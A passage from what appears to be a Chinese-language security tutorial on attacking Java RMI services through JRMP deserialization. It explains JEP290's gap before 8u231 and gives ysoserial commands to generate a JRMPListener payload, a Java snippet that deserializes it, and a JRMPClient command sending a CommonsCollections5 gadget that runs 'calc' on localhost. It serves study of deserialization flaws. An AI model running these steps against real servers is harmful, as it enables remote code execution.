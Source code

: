尽管存在JEP290，但是JEP290默认没有对JRMP客户端的反序列化做限制，所以可以打得通

但是在8u231只会对这个进行了修复，当客户端的版本在8u231之后就不行了

# 利用JRMP客户端打服务端

ysoserial中的`exploit/JRMPClient`是作为攻击方的代码，一般会结合`payloads/JRMPLIstener`使用。

攻击流程如下：

- 需要发送`payloads/JRMPLIstener`内容到漏洞服务器中，在该服务器反序列化完成我们的payload后会开启一个RMI的服务监听在设置的端口上。
- 我们还需要在我们自己的服务器使用`exploit/JRMPClient`与存在漏洞的服务器进行通信，并且发送一个gadgets对象，达到一个命令执行的效果。(前面说过RMI协议在传输都是传递序列化，接收数据后进行反序列化操作。)

简单来说就是将一个payload发送到服务器，服务器反序列化操作该payload过后会在指定的端口开启RMI监听，然后通过`exploit/JRMPClient` 去发送攻击 gadgets对象

生成payload

```
java -jar ysoserial.jar JRMPListener 1099 > JRMP.bin
```

反序列化payload来开启一个RMI监听

```
package ysoserial.JRMP;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("D:\\工具\\ysoserial-master\\src\\main\\java\\ysoserial\\JRMP\\JRMP.bin"));
        Object o = fos.readObject();
        System.out.println(o);
    }
}
```

发送攻击的Gadget

```
java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections5 "calc"
```
